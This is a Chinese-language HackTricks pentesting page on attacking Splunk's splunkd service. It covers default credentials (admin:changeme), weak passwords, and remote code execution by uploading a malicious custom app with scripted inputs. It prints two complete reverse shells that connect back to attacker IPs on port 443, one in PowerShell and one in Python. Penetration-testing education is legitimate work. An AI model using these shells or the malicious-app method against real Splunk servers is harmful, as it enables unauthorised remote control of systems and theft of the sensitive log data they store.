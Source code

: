 # 8089 - Pentesting Splunkd

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术： <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## **基本信息**

* 用于数据收集、分析和可视化的日志分析工具
* 常用于安全监控和业务分析
* 默认端口：
* Web 服务器：8000
* Splunkd 服务：8089

### 漏洞向量：

1. 免费版本利用

* 试用版在 60 天后自动转换为免费版
* 免费版缺乏身份验证
* 如果不加以管理，可能存在安全风险
* 管理员可能会忽视安全隐患

2. 凭证弱点

* 旧版本：默认凭证 `admin:changeme`
* 新版本：安装时设置凭证
* 可能使用弱密码（例如，`admin`、`Welcome`、`Password123`）

3. 远程代码执行机会

* 多种代码执行方法：
* 服务器端 Django 应用
* REST 端点
* 脚本输入
* 警报脚本
* 跨平台支持（Windows/Linux）
* 脚本输入可以运行：
* Bash 脚本
* PowerShell 脚本
* 批处理脚本

关键利用潜力：

* 敏感数据存储
* 免费版缺乏身份验证
* 多种潜在远程代码执行向量
* 利用脚本输入进行系统妥协的可能性

### Shodan

* `Splunk build`

## RCE

### 创建自定义应用

Splunk 提供了一种通过自定义应用部署进行远程代码执行的复杂方法，利用其跨平台脚本能力。核心利用技术围绕创建一个恶意应用，该应用可以在 Windows 和 Linux 系统上执行反向 shell。

自定义应用可以运行 **Python、Batch、Bash 或 PowerShell 脚本**。此外，**Splunk 自带 Python**，因此即使在 **Windows** 系统上，您也能够运行 Python 代码。

您可以使用 [**这个**](https://github.com/0xjpuff/reverse_shell_splunk) 示例，其中 **`bin`** 包含 [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) 和 [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1) 的示例。或者您可以创建自己的。

利用过程在各个平台上遵循一致的方法论：
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
关键配置文件 `inputs.conf` 通过以下方式启用脚本：

* 设置 `disabled = 0`
* 配置 10 秒的执行间隔
* 定义脚本的源类型

部署过程很简单：

1. 创建恶意应用程序包
2. 在攻击机器上设置监听器 (Netcat/socat)
3. 通过 Splunk 的界面上传应用程序
4. 在上传时触发自动脚本执行

示例 Windows PowerShell 反向 shell：
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
示例 Linux Python 反向 shell:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

在以下页面中，您可以找到如何滥用此服务以提升权限并获得持久性的解释：

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
